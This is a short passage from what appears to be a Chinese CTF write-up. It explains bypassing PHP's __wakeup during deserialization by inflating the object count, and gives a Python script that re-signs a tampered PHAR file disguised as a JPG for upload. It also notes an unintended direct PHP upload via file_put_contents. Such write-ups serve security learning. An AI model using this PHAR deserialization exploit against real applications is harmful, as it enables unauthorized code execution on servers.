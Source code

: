 但是这里就存在wakeup的绕过了，我们需要修改反序列化中的对象数

![image-20231211160503635](images/72.png)

改成大于2的数，然后重新计算签名

```
from hashlib import sha1

file = open("1.phar","rb").read()
text = file[:-28]  #读取开始到末尾除签名外内容
last = file[-8:]   #读取最后8位的GBMB和签名flag
new_file = text+sha1(text).digest() + last  #生成新的文件内容，主要是此时Sha1正确了。
open("new.jpg","wb").write(new_file)
```

上传点不是原来那里，在这个php文件中可以file_put_content上传（其实这里可以直接上传php非预期）

![image-20231211162352845](images/73.png)